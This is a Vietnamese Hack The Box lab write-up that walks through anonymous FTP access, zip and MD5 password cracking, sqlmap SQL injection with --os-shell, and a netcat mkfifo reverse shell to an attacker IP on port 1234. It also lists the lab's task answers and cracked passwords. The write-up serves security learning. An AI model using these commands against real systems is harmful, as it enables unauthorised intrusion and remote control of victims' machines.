 ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/5662756c-ae90-41ca-9fd1-6b2dc4de3824)

- Chạy nmap -sV -T4 quét các dịch vụ chạy trên máy chủ

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/fe21aece-cacf-4e33-9df8-38c1df972a5f)

* Task 1: Besides SSH and HTTP, what other service is hosted on this box?: ftp
- Ta cần thu thập thêm thông tin về dịch vụ chạy lệnh: nmap -sC -T4 "ip"

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/5eb0427b-97ac-44d2-8f8d-e39c4445e7db)

- Điều cần chú ý ở đây là FTP: giao thức truyền tệp qua mạng, hoạt động theo mô hình client-server
* Task 2: This service can be configured to allow login with any password for specific username. What is that username?:  Anonymous
- Tiến hành đăng nhập bằng username: anonymous.
- command: ftp anonymous@10.129.95.174

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/1b95ed0e-7c6d-4f93-8c66-33286c1bcc04)

- Sử dụng lệnh ls để liệt kê thư mục, file. Ta thấy có 1 file là backup.zip. Sử dụng lệnh get để tải file xuống
*  Task 3: What is the name of the file downloaded over this service?: backup.zip

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/44b107cc-6c0a-49fc-9483-06bf3f3ab6e1)

- Tiến hành giải nén file, file có mật khẩu. Sử dụng john the ripper để crack mật khẩu.
- Task 4: What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?: zip2john

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/be6c18c3-dfe3-47bd-b66a-46d8aa6b6f24)

- Crack không được, ta dùng wordlist để bẻ khóa (dùng wordlist rockyou.txt)

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/e74ef254-78ba-4728-9eae-54320ebb52d1)

- lấy được password: 741852963
- Tiến hành giải nén file backup được 2 file là index.php và style.css
- Ta quan tâm đến file index.php
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/1a19ce53-dbad-4f3f-ad70-4bb1e0b322d6)

- Thấy được user là admin là mật khẩu là 1 mã hax: dùng tiếp john the ripper để crack.
- Chạy không ra => dùng hashcat 
- hashcat -m 0 -a 0 vaccine2.txt /usr/share/wordlists/rockyou.txt
- trong đó -m là hash mode 0 là md5, -a attack mode  0 | Straight
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/389030fd-416c-4c61-a0bc-badc488057f9)

- Task 5: What is the password for the admin user on the website?: qwerty789
- Đề bài ở đây là thực thi sql injection: sử dụng sql map.
- Tạo 1 file là new.req để lưu request.
- Dùng burpsuite bắt requets copy-> new.req
- ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/37a107c6-cce8-4340-8167-fcec10e9dc59)

- Sử dụng sqlmap -r new.req --os-shell
- Tham số -r là đọc request từ file new.req, tham số --os-shell để thực thi lệnh shell từ xa. 
- Task 6: What option can be passed to sqlmap to try to get command execution via the sql injection?: --os-shell
- ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/c4679cf5-719d-4233-920c-2e0217587f6e)

- lệnh shell: (rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.22 1234 >/tmp/f)
+ Sẽ tạo tệp fifo: tệp để truyền dữ liệu giữa các tiến trình: ip 10.10.14.22(ip của máy tấn công: ifconfig, tun0) cổng 1234 
+ Sau khi thực thi lệnh xong.
+ mở terminal chạy netcat để lắng nghe trên cổng 1234 
+ để shell hoạt động trơn tru vip pro hơn: 
      python3 -c 'import pty;pty.spawn("/bin/bash")'
      CTRL+Z
      stty raw -echo
      fg
      export TERM=xterm
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/4691fbcf-a4c7-412e-a7ce-77da3fb87460)

- Cat user.txt ra được flag 1
- ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/580a4340-46f4-4546-b392-9dc49a411e43)

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/49499894-6444-4431-82e2-e97c685c28f2)
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/85c4e920-dd0f-403f-9ce4-ea314001fb8b)

- ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/4e31f8eb-2564-4dfd-8206-464e75e3acf8)
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/a4ecc9d8-daad-4f01-98c5-4630a8b53d2a)

